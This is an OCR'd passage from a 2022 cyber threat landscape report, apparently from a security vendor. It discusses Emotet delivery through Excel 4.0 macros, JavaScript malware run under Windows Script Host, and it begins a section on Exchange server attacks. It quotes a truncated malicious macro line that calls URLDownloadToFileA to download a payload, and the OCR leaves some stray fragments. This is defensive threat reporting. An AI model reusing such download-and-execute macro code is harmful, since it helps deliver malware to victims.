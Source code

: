 URLDownloadToFile to download and execute the Emotet trojan. 
Auto\_Open Excel 4\.0 function, taken from a malicious document
Excel 4\.0 use of \=CALL to directly call a Windows function in order to download the Emotet trojan
Excel 4\.0 Macros
Emotet


EFEWF!$D$1
\=CALL("urlmon"," URLDownloadToFileA","JJCCBB",0,"http:
ada.
.
.
.
23
CYBER THREAT LANDSCAPE REPORT 2022
JavaScript 
Script\-based attacks have now become a significant threat 
for organizations of all sizes, with estimates putting them 
at 40% or more of all global cyberattacks. A script can be 
anything from a sequence of simple commands used for 
system configuration, task automation, and other general 
purposes, to more advanced, multi\-layered, and often 
obfuscated code. The most commonly used scripting 
languages are PowerShell, VBScript, and JavaScript. 
While PowerShell attacks may get more scrutiny from threatteams, Windows JavaScript attacks are used by threat 
actors for many of the same purposes yet present unique 
challenges in terms of detection and prevention. 
Outside of a browser which executes JavaScript in an 
encapsulated fashion, greatly limiting that codes interaction 
with the operating system Windows provides facilities 
for JavaScript execution with Windows Script Host (WSH). 
It executes JavaScript (and other Windows\-supported 
scripting languages) under the wscript.exe and cscript.
exe Windows processes, providing an attack surface for 
adversaries to exploit. 
JavaScript malware can range from a simple dropper 
intended to deliver additional malware to fully\-featured, 
multi\-purpose pieces of malware in their own right. 
As threat actors around the world are developing and 
maintaining JavaScript\-based malware that is on par in 
its functionality and sophistication with anything in the 
parallel landscapes of other Windows\-supported scripting 
languages, our team explored a growing and highly active 
threat landscape. 
We have found a broad mix of both existing and often highly 
commoditized JavaScript\-based malware and more niche 
usages of JavaScript, including backdoors written by APTs. 
All forms of JavaScript attacks are gaining in popularity and 
prevalence, as threat actors from all levels are transitioning 
to the no PE needed mentality and embracing script\-based 
malware. 
40%
OR MORE OF ALL GLOBAL 
CYBERATTACKS ARE SCRIPT\-BASED 
Source: Ponemon institute, The Third Annual Study on the State of Endpoint Security Risk.
Threat actors from all levels are transitioning to the no 
PE needed mentality and embracing script\-based malware.
24
CYBER THREAT LANDSCAPE REPORT 2022
Attacks on Microsoft 
Exchange Servers
ProxyShell 
CVE\-2021\-42321 